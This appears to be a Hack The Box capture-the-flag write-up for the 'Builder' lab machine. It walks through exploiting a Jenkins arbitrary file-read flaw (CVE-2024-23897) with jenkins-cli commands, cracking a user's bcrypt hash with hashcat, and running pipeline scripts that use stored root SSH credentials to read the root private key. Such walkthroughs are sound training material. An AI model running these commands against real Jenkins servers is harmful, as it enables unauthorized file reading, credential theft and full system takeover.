


# [Builder](https://app.hackthebox.com/machines/builder)

```bash
nmap -p- --min-rate 10000 10.10.11.10 -Pn 
```


After detection of open ports, let's do greater nmap scan.

```bash
nmap -A -sC -sV -p22,8080 10.10.11.10 -Pn 
```


For port `8080`, it's `Jenkins` application, let's look at version of this.


Version is `Jenkins 2.441`, let's search publicly known exploit for this version of software.

That's [CVE-2024-23897](https://github.com/Praison001/CVE-2024-23897-Jenkins-Arbitrary-Read-File-Vulnerability.git).


Let's do all stuff to exploit.

First, we need to get `jenkins-cli.jar` file via `wget` command.
```bash
wget http://10.10.11.10:8080/jnlpJars/jenkins-cli.jar
```




From `Jenkins` [documentation](https://boozallen.github.io/sdp-docs/learning-labs/1/local-development/3-configure-jenkins.html), I found a PATH for `initalAdminPassword`, but it returns nothing.

```bash
java -jar jenkins-cli.jar -s 'http://10.10.11.10:8080' help '@/var/jenkins_home/secrets/initialAdminPassword' a
```


Let's look at `users` info by reading [this](https://dev.to/pencillr/spawn-a-jenkins-from-code-gfa).

```bash
java -jar jenkins-cli.jar -s 'http://10.10.11.10:8080' reload-job '@/var/jenkins_home/users/users.xml'
```


From here, I grab user called `jennifer_12108429903186576833`, let's look at configuration details of this.
```bash
java -jar jenkins-cli.jar -s 'http://10.10.11.10:8080' reload-job '@/var/jenkins_home/users/jennifer_12108429903186576833/config.xml'
```


I take value from `passwordHash` tag.


There's user called `jennifer` and other one is `Blowfish` password hash of this user.

Let's crack this via `hashcat` command.
```bash
hashcat -m 3200 hash.txt --wordlist /usr/share/wordlists/rockyou.txt
```


jennifer: princess

Let's check this credentials for authentication to `Jenkins`.


While I trying to discover `Jenkins`, I see that there is `root` user credentails is valid.


That's why I can enter script into `Script Console` for `root`user which has id is 1.

```bash
node {
  sshagent (credentials: ['1']) {
    sh 'ssh -o StrictHostKeyChecking=no -l root 10.10.11.10 uname -a'
  }
}
```


As we are `root` user already, let's read `private_key` (id_rsa) of `root` user.

```bash
node {
  sshagent (credentials: ['1']) {
    sh 'ssh -o StrictHostKeyChecking=no -l root 10.10.11.10 cat /root/.ssh/id_rsa'
  }
}
```


Let's get this private key and change mod and login into machine.
```bash
chmod 600 id_rsa
ssh -i id_rsa root@10.10.11.10
```


user.txt



root.txt

